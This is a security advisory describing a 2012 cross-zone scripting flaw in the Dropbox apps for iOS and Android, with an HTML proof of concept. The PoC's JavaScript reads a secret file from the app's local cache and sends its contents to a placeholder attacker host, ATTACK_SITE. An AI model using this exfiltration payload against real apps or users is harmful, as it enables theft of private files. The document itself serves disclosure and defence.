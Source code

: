 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-10-18' 
alephid: ALEPH-2012001
date: '2012-10-18'
title: 'Dropbox for iOS & Android Cross-Zone Scripting'
severity: moderate
product:
    - Dropbox App for iOS 
    - Dropbox App for Android
    
vulnerable: 
    - 1.4.6 (iOS)
    - 2.0.1 (Android)
references:
    - src: Paper
      url: http://blog.watchfire.com/files/dropboxadvisory.pdf
---
```

A significant feature of the Dropbox apps is allowing a user to view either his files or files shared with him.
The Dropbox apps achieve this by using an embedded browser (e.g by using the UIWebView class in iOS) to display the contents of these files. Amongst numerous file types, the Dropbox apps allow the user to view HTML files in a rendered format. To do this, the Dropbox apps use an embedded browser window to render the locally stored HTML file. The method with which the DropBox apps render an HTML file has two side effects:

1. JavaScript code contained in the HTML file is automatically executed.
2. The HTML content is loaded in a privileged “file” zone, as opposed to an unprivileged HTTP location. Execution of malicious JavaScript code allows an attacker to steal potentially valuable information from the DOM of the embedded browser, an attack dubbed “Cross-Application Scripting” (XAS). However, because the Dropbox apps load the HTML file from a privileged zone
this malicious JavaScript can also access the file system with the same permissions as the Dropbox apps.

## Proof-of-Concept

The following is a PoC illustrates a malicious HTML file that steals a secret file from the user’s Dropbox
account (iOS Version):
```html
<html>
<head>
    <title>Malicious HTML File!</title>
</head>
<body>
    <script>
        function readDropBoxFileiOS(fileName) {
            // Create a new XHR Object
            x = new XMLHttpRequest();
            // When file content is available, send it back
            x.onreadystatechange = function () {
                if (x.readyState == 4) {
                    x2 = new XMLHttpRequest();
                    x2.onreadystatechange = function () {};
                    // x.responseText contains the content of fileName
                    // which we’ll send back to ATTACK_SITE
                    x2.open("GET", "http://ATTACK_SITE/?file_content=" +
                    encodeURI(x.responseText));
                    x2.send();
                }
            }
            // Try to read the content of the specified file
            x.open("GET", fileName);
            x.send();
        };
        // Reads the a secret file from the user’s local cache
        readDropBoxFileiOS("file:///var/mobile/Applications/APP_UUID/
                            Library/Caches/Dropbox/Secrets/secret.txt");
    </script>
    <h1>This malicious file will now leak a secret file!</h1>
    </body>
</html>
```
